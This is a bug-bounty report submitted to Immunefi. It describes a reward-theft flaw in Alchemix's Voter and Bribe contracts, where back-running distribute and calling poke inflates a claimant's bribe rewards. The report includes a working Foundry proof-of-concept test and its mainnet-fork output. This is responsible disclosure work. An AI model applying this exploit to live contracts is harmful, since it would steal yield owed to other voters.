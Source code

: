 
# malicious user can back-run `Voter.distribute` to steal reards

Submitted on Wed May 15 2024 13:58:42 GMT-0400 (Atlantic Standard Time) by @jasonxiale for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31249

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
In current implementation, `Voter.distribute` is used to distribute ALCX among gauges, during the call there is an issue that a malicious user can back-run `Voter.distribute` to steal reards.


## Vulnerability Details
During the `Voter.distribute` function, [Voter._distribute](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L359C14-L379) is called, and at the end  of `Voter._distribute`, `IBribe.resetVoting` is called at [https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L377]
[IBribe.resetVoting](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L332-L335) is defined as:
```solidity
345     /// @inheritdoc IBribe
346     function resetVoting() external {
347         require(msg.sender == voter);
348         totalVoting = 0;
349     }
```

__So it means that after calling `Voter.distribute`, `Bribe.totalVoting` will be set to 0.__

Then in `Bribe.earned`, `Bribe.totalVoting` is used in [Bribe.sol#L257-L261](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L255-L261) and [Bribe.sol#L268-L277](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L268-L277).
One thing to note is that:
```solidity
270         // Prevent divide by zero
271         if (_priorSupply == 0) {
272             _priorSupply = 1;
273         }
```
So it means that if **_priorSupply** will be set to **1** if it's 0.
And `reward` depends on `_priorSupply` as:
```solidity
reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;
```

To sum up:
1. During `Voter.distribute`, `Bribe.totalVoting` will be set to **0**
2. `Bribe.earned` depends of `Bribe.totalVoting` to calculate the amount of rewards. And if we can force `_priorSupply` to 1 while calculating the rewards, we will make more profilt. We can use `Voter.poke` to update the `checkpoint` after `Voter.distribute`.


## Impact Details
In current implementation, `Voter.distribute` is used to distribute ALCX among gauges, during the call there is an issue that a malicious user can back-run `Voter.distribute` to steal reards.


## References
Add any relevant links to documentation or code

        
## Proof of concept
## Proof of Concept
put the follow code in `src/test/Voting.t.sol` and run 
```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/$API_KEY --fork-block-number 17133822 --mc VotingTest --mt testAliceEpochRewards -vv
[⠊] Compiling...
No files changed, compilation skipped

Ran 2 tests for src/test/Voting.t.sol:VotingTest
[PASS] testAliceEpochRewardsNoPoke() (gas: 6888013)
Logs:
  earned                    : 33333333333333333333333
  earned                    : 33333333333333333333333
  bal.balanceOf(Alice)      : 33333333333333333333333
  bal.balanceOf(Bob)        : 0

[PASS] testAliceEpochRewardsPoke() (gas: 6969463)
Logs:
  earned                    : 100000000000000000000000
  earned                    : 100000000000000000000000
  bal.balanceOf(Alice)      : 100000000000000000000000
  bal.balanceOf(Bob)        : 0

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 86.68ms (116.98ms CPU time)
```
As we can from above, if Alice doesn't call `Voter.poke` after `Voter.distribute`, Alice will receive 33333333333333333333333 bal rewards.

And if Alice calls `Voter.poke` after `Voter.distribute`, Alice will receive 100000000000000000000000 bal rewards.

```solidity
    function testAliceEpochRewardsPoke() public {
        uint256 period = minter.activePeriod();

        hevm.warp(period + nextEpoch);
        hevm.roll(block.number + 1);

        deal(address(alcx), address(voter), TOKEN_100K);

        hevm.prank(address(voter));
        sushiGauge.notifyRewardAmount(TOKEN_100K);

        address Alice = address(0x11001100);
        address Bob   = address(0x22002200);
        address Chris = address(0x33003300);
        // Create a veALCX token and vote to trigger voter rewards
        uint256 tokenId1 = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(Bob, TOKEN_1, MAXTIME, false);
        uint256 tokenId3 = createVeAlcx(Chris, TOKEN_1, MAXTIME, false);
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;
        address[] memory gauges = new address[](1);
        gauges[0] = address(sushiGauge);

        hevm.prank(Alice);
        voter.vote(tokenId1, pools, weights, 0);
        hevm.prank(Bob);
        voter.vote(tokenId2, pools, weights, 0);
        hevm.prank(Chris);
        voter.vote(tokenId3, pools, weights, 0);

        address bribeAddress = voter.bribes(address(sushiGauge));
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        voter.distribute();
        hevm.prank(Alice);
        voter.poke(tokenId1);

        hevm.warp(block.timestamp + nextEpoch);

        address[] memory bribes = new address[](1);
        bribes[0]  = bribeAddress;
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        console2.log("earned                    :", IBribe(bribeAddress).earned(address(bal), tokenId1));
        console2.log("earned                    :", IBribe(bribeAddress).earned(address(bal), tokenId2));
        hevm.prank(Alice);
        voter.claimBribes(bribes, tokens, tokenId1);
        console2.log("bal.balanceOf(Alice)      :", IERC20(bal).balanceOf(Alice));
        console2.log("bal.balanceOf(Bob)        :", IERC20(bal).balanceOf(Bob));
    }

    function testAliceEpochRewardsNoPoke() public {
        uint256 period = minter.activePeriod();

        hevm.warp(period + nextEpoch);
        hevm.roll(block.number + 1);

        deal(address(alcx), address(voter), TOKEN_100K);

        hevm.prank(address(voter));
        sushiGauge.notifyRewardAmount(TOKEN_100K);

        address Alice = address(0x11001100);
        address Bob   = address(0x22002200);
        address Chris = address(0x33003300);
        // Create a veALCX token and vote to trigger voter rewards
        uint256 tokenId1 = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(Bob, TOKEN_1, MAXTIME, false);
        uint256 tokenId3 = createVeAlcx(Chris, TOKEN_1, MAXTIME, false);
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;
        address[] memory gauges = new address[](1);
        gauges[0] = address(sushiGauge);

        hevm.prank(Alice);
        voter.vote(tokenId1, pools, weights, 0);
        hevm.prank(Bob);
        voter.vote(tokenId2, pools, weights, 0);
        hevm.prank(Chris);
        voter.vote(tokenId3, pools, weights, 0);

        address bribeAddress = voter.bribes(address(sushiGauge));
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        voter.distribute();

        hevm.warp(block.timestamp + nextEpoch);

        address[] memory bribes = new address[](1);
        bribes[0]  = bribeAddress;
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        console2.log("earned                    :", IBribe(bribeAddress).earned(address(bal), tokenId1));
        console2.log("earned                    :", IBribe(bribeAddress).earned(address(bal), tokenId2));
        hevm.prank(Alice);
        voter.claimBribes(bribes, tokens, tokenId1);
        console2.log("bal.balanceOf(Alice)      :", IERC20(bal).balanceOf(Alice));
        console2.log("bal.balanceOf(Bob)        :", IERC20(bal).balanceOf(Bob));
    }
```
